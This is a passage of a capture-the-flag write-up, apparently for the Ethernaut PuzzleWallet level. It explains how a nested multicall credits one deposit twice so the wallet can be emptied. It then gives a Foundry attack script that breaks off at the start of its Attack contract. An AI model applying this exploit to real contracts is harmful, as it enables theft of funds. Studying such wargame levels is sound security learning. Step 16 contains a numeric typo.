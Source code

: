 9. To update `maxPrice` we need to drain all the funds of the the PuzzleWallet. Initially it has 0.001 ether, We can able to deposit some ether and withdraw the same amount of ether only using the `execute()` function.
10. If we somehow able to pass this `require(balances[msg.sender] >= value, "Insufficient balance");` check we can withdraw more ether from wallet.
11. To do so, we need to send 0.001 ether only to the wallet, but we need to update the `balance[msg.sender]` to double of it. So that we can withdraw() 0.002 ether from the wallet. So that wallet balance will be zero.
12. We can use the `multicall()` function to do this, we call the `multicall()` with 0.001 ether and pass the function signature of the `deposit()` so that our balance will become 0.001 ether and balance of wallet will be 0.002 ether.
13. We cant call `deposit()` twice in a single call by passing calldata as [signature of `deposit` + signature of `deposit`]. As there is a check to catch this case.
14. But we can send the singature of the `deposit()` and a call to `multicall()` again with the `deposit()` signature.
15. That is we are calling multicall with a `deposit()` calldata along with multicall calldata with `deposit()` signature. i.e, a nested multicall.
16. This will modify the `balance[msg.sender]` twice so that it will become 0.00 ether, but the actual wallet balance is 0.002.
17. Now we have enough `balance[msg.sender]` to pass the check done in `execute()` function.
18. So, now we can withdraw 0.002 ether from wallet, therefore the wallet balance becomes zero.


`PuzzleWalletSolve.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/PuzzleWallet.sol";

contract PuzzleWalletSolve is Script{
    PuzzleProxy public proxy = PuzzleProxy(payable(0xf8393D543826B4240CEb1Dc159aa83d6a879D8c2));
    PuzzleWallet public wallet = PuzzleWallet(0xf8393D543826B4240CEb1Dc159aa83d6a879D8c2);

    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        console.log("Wallet Owner  :", wallet.owner());
        console.log("Proxy Admin :", proxy.admin());
        console.log("Wallet Max Balance : ", wallet.maxBalance());
        console.log("Proxy Pending Admin : ", proxy.pendingAdmin());
        console.log("Wallet balance : ", address(wallet).balance);

        Attack attack = new Attack();

        attack.exploit{value: 0.001 ether}();


        console.log("Wallet Owner  :", wallet.owner());
        console.log("Proxy Admin :", proxy.admin());
        console.log("Wallet Max Balance : ", wallet.maxBalance());
        console.log("Proxy Pending Admin : ", proxy.pendingAdmin());
        console.log("Wallet balance : ", address(wallet).balance);

        vm.stopBroadcast();
    }
}


contract Attack {
    PuzzleProxy public proxy = PuzzleProxy(payable(0xf8393D543826B4240CEb1Dc159aa83d6a879D8c2));
    PuzzleWallet public wallet = PuzzleWallet(0xf8393D543826B4240CEb1Dc159aa83d6a879D8c2);
```
